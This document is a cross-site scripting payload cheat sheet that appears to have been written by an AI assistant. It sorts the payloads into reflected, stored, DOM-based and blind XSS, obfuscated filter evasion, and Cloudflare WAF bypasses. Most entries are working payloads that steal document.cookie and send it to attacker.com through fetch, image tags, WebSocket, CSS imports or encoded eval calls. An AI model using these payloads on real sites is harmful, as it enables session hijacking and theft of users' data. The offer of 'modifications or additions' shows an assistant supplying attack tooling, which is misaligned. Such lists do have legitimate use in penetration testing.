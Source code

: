 **Cross-Site Scripting (XSS) Payloads**

## **Reflected Cross-Site Scripting (XSS)**

### **1. Basic Alert:**
```html
<script>alert('XSS');</script>
```

### **2. Stealing Cookies:**
```html
<script>fetch('http://attacker.com/log?cookie=' + document.cookie);</script>
```

### **3. Redirecting the User:**
```html
<script>window.location='http://attacker.com';</script>
```

```html
<input type="text" value="<script>alert(123)</script>">
```

### **4. Bypassing Filters (Using Encoded Characters):**
```html
<img src=x onerror=alert('XSS')>
```
**Encoded Version:**
```html
%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E
```

### **5. Using Event Handlers:**
```html
<a href="#" onclick="alert(1)">Click me!</a>
<a href="javascript:alert(1)">Click me</a>
```

### **6. Advanced Payload (Using IIFE):**
```html
<script>(()=>{alert('XSS')})()</script>
<img src="x" onerror="alert&#40;'XSS'&#41;">
<iframe src="javascript:alert(1)"></iframe>
<a href="javascript:alert(1)">Click me</a>
```

---

## **Stored Cross-Site Scripting (Stored XSS)**

### **1. Simple Alert Box:**
```html
<script>alert('XSS');</script>
```

### **2. Stealing Cookies:**
```html
<script>fetch('https://attacker.com/log?cookie=' + document.cookie);</script>
```

### **3. Session Hijacking using Image Tag:**
```html
<img src="x" onerror="fetch('https://attacker.com/log?cookie='+document.cookie)">
```

### **4. Automatic Redirection:**
```html
<script>window.location='https://attacker.com'</script>
```

### **5. Advanced Payloads:**
```html
<svg onload=alert('XSS')>
<input type="text" value="" onfocus="alert('XSS')" autofocus>
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
<script>(function(){alert('XSS')})()</script>
```

---

## **DOM-Based Cross-Site Scripting (DOM XSS)**

### **1. URL Parameter Exploitation:**
```html
http://example.com/page.html?name=<script>alert('XSS')</script>
```

### **2. Location Hash Manipulation:**
```html
http://example.com/page.html#<img src=x onerror=alert('XSS')>
```

### **3. document.referrer Exploitation:**
```html
<a href="http://example.com/vulnerablePage.html">Go to vulnerable site</a>
```

### **4. Using localStorage:**
```html
localStorage.setItem('user', '<img src=x onerror=alert("XSS")>');
location.reload();
```

### **5. Bypassing Filters with eval():**
```html
http://example.com/page.html?data=alert('XSS')
```

### **6. location.search with innerHTML:**
```html
http://example.com/page.html?message=<svg/onload=alert('XSS')>
```

---

## **Basic Blind XSS Payloads**

### **1. Basic Exfiltration using `<script>`:**
```html
<script>new Image().src='https://attacker.com/log?cookie='+document.cookie;</script>
```

### **2. Using fetch() for Stealth:**
```html
<script>
fetch('https://attacker.com/log', {
method: 'POST',
mode: 'no-cors',
body: 'cookie=' + document.cookie + '&url=' + location.href
});
</script>
```

### **3. Stealing Data with an `<img>` Tag:**
```html
<img src="https://attacker.com/log?data=" + document.cookie>
```

---

## **Obfuscated and Filter Evasion Techniques**

### **1. Encoded Characters:**
```html
<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,111,111,107,105,101,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));</script>
```

### **2. Bypassing Filters with SVG:**
```html
<svg onload="fetch('https://attacker.com/log?cookie='+document.cookie)">
```

### **3. Using setTimeout:**
```html
<script>setTimeout(function(){fetch('https://attacker.com/log?cookie='+document.cookie)}, 2000);</script>
```

---

## **Stealthy Payloads for Non-Script Contexts**

### **1. Using an HTML Attribute:**
```html
<iframe srcdoc="<script>new Image().src='https://attacker.com/log?cookie='+document.cookie;</script>"></iframe>
```

### **2. CSS-Based Payload:**
```html
<style>@import 'https://attacker.com/log?cookie='+document.cookie;</style>
```

### **3. Exfiltrating via WebSocket:**
```html
<script>
let ws = new WebSocket("wss://attacker.com/socket");
ws.onopen = function() {
ws.send(document.cookie);
};
</script>
```

---

## **Cloudflare Bypass Techniques**
```html
<select><style></select>
<svg onload=alert(1)></style>
"><img src=x onerrora=confirm() onerror=confirm(1)>
<DETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt, a(origin)%20x>
<svg onload=alert&#0000000040"1")><">
<svg%20onx=()%20onload=(confirm) (document.domain)> &#34;><track/onerror=&#x27;confirm\%601\%60&#x27;>
"/><img%20s+src+c=x%20on+onerror+%20="alert(1)">
"></script>"><--<img+src= "><svg/onload=alert(document.cookie)>> --!>
```

This structured document categorizes XSS payloads based on their types, use cases, and evasion techniques. Let me know if you need further modifications or additions!

